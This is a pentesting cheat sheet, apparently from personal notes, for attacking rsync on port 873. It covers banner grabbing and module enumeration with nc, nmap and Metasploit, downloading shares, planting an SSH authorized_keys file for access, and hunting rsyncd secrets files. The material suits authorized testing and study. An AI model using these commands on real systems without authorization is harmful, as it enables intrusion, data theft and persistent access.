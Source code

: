 # Pentesting Rsync

## Rsync port 873

* Basic information
* [https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsynchttps://phoenixnap.com/kb/how-to-rsync-over-ssh)
* [https://phoenixnap.com/kb/how-to-rsync-over-ssh](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsynchttps://phoenixnap.com/kb/how-to-rsync-over-ssh)
* rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

* Enumerate shared folders
* An rsync module is essentially a directory share. These modules can optionally be protected by a password.
* This options lists the available modules and, optionally, determines if the module requires a password to access:

```
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

* Manual Rsync
* List a shared folder

```
rsync -av --list-only rsync:/10.10.232.5/shared_name
```

* Copy all files to your local machine via the following command:

```
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

* If you have credentials you can list/download a shared name using (the password will be prompted):

```
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
proxychains rsync -av --list-only rsync://svc_ipmi@172.16.210.34/svc_rsync
```

* You could also upload some content using rsync (for example, in this case we can upload an authorized\_keys file to obtain access to the box):

```
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
#full command syntax below
rsync -av id_rsa.pub rsync://rsync-connect@10.10.63.208/files/sys-internal/.ssh/authorized_keys
```

* Find the rsyncd configuration file:

```
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

* Inside the config file sometimes you could find the parameter `secrets file = /path/to/file` and this file could contains usernames and passwords allowed to authenticate to rsyncd.
